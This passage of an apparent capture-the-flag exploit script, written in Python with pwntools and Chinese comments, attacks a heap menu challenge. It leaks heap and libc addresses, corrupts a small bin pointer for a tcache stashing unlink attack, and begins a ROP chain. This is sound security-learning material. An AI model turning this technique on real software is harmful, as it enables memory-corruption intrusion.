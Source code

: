 ```python
    p.recvuntil("red packet idx")
    p.sendline(str(idx))


def edit(idx, content):
    p.recvuntil("Your input:")
    p.sendline("3")
    p.recvuntil("red packet idx")
    p.sendline(str(idx))
    p.recvuntil("Please input content:")
    p.sendline(content)

def show(idx):
    p.recvuntil("Your input:")
    p.sendline("4")
    p.recvuntil("packet idx: ")
    p.sendline(str(idx))

def backdoor():
    p.recvuntil("Your input:")
    p.sendline("666")

if __name__=='__main__':

    for i in range(0,7):
        add(i, 4, 'AAAAAAAA')
        delete(i)
    show(1) # [1] 泄露堆地址 
    heap_base = u64(p.recv(6).ljust(8,'\0')) - 0x1270
    print "heap_base:",hex(heap_base)

    for i in range(0,6):
        add(i, 2, 'AAAAAAAA')
        delete(i)
    # 在tcache idx_0x100 获得6个free bin，预留一个空间，这样victim被unlink 进来之后刚好tcache满了，
    # 不再继续触发tcache stashing，否则下次bck=tc_victim->bk=target->bk,由于无法控制target->bk，可能会Segmentation Fault   

    add(7, 4, 'BBBBBBBB') # 申请一个0x400大小的chunk
    add(8, 3, 'CCCCCCCC') # 防止后面free时和top chunk合并
    delete(7)  # 获得一个unsorted bin
    show(7)  # 泄露libc地址
    libc_base = u64(p.recv(6).ljust(8,'\x00')) - 96 - 0x10 - libc.symbols['__malloc_hook'] 
    print "libc_base:", hex(libc_base)
    
    add(0, 3, 'BBBBBBBB') # 将unsorted bin分成0x300 和一个0x100的last remainer
    add(1, 3, 'BBBBBBBB') # 将last remainer 变成small bin 1

    add(2, 4, 'CCCCCCCC') # 再次分配一个0x400的chunk
    add(3, 3, 'CCCCCCCC') # 防止后面free时和top chunk合并
    delete(2) # 获得一个unsorted bin，重复上面的操作
    add(3, 3, 'CCCCCCCC') # 将unsorted bin分成0x300 和一个0x100的last remainer
    add(3, 3, 'CCCCCCCC') # 获得另一个small bin 2，连成串

    payload = '\x00'*0x300+p64(0)+p64(0x101)+p64(heap_base+0x37E0)+p64(heap_base+0xa50)
    #[2]  
    edit(2,payload) #改写 small bin 2的bk
    #[3]
    add(9, 2, 'AAAAAAAA')# 分配了small bin 1出去，剩下small bin 2，被放置到tcache中，此时bck->fd=bin,
    #[4]
    #bck为target 地址，+0x10的地址被填写bin的地址，一般为0x7fxxxxxxxxxxxxxx。

    pop_rdi_ret = libc_base + 0x0000000000026542
```